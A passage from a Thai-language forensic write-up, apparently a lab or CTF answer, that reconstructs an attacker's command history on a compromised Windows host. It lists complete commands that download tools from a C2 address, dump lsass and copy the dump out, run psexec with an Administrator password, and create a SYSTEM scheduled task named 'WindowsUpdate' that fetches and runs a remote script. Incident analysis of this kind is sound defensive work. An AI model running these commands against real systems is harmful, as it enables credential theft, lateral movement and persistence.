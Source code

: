 ![234575b8cd7bc95a3f32a0ccc4264766.png](../_resources/234575b8cd7bc95a3f32a0ccc4264766.png)

ซึ่งหลังจากนั้นก็ได้มีการเอา `psexec64.exe` มาด้วยซึ่ง without a doubt แล้วหละว่า Admin ถูก compromised ไปแล้ว

```
Admin
```

ซึ่งเมื่อย้อนกลับไปดูตั้งแต่เริ่มก็จะพบว่า threat actor ได้รัน
- `hostname` : แสดง hostname 
- `whoami` : ฉัน เป็น ใคร?
- `"netsh" interface tcp show global` : แสดงการตั้งค่า TCP
- `cmd.exe /C powershell wget http://10.64.5.73/procdump.exe -O C:\Users\Admin\procdump.exe` : ดึง process dump มาจาก C2
- `cmd.exe /C powershell wget http://10.64.5.73/psexec64.exe -O C:\Users\Admin\psexec64.exe` : ดึง psexec มาจาก C2
- `cmd.exe /C dir C:\Users\Admin` : ไปยังโฟลเดอร์ที่ drop ไฟล์มา
- `cmd.exe /C C:\Users\Admin\procdump.exe -accepteula -ma lsass C:\lsass.dmp` : dump lsass process ซึ่งสามารถเอาไป crack หา hash / weak password ได้
- `cmd.exe /C copy C:\lsass.dmp \\10.64.5.73\share` : copy lsass dump ไปยัง C2 share drive
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c whoami` : หลังจากได้ password ของ Administrator มาแล้วก็ใช้ psexec run `whoami` ในสิทธิ์ของ Administrator บนเครื่อง 10.73.3.50
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c ipconfig` : รัน `ipconfig` บนเครื่อง 10.73.3.50
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c schtasks /F /create /RU SYSTEM /tn WindowsUpdate /sc DAILY /st 00:00 /tr "powershell iex ((New-Object System.Net.WebClient).DownloadString('http://10.64.5.73/persist.ps1'))"` : สร้าง Task "WindowsUpdate" ที่จะรันด้วยสิทธิ์ SYSTEM ทุก ๆ เที่ยงคืนเพื่อดาวน์โหลดและรัน persistence script จาก C2 server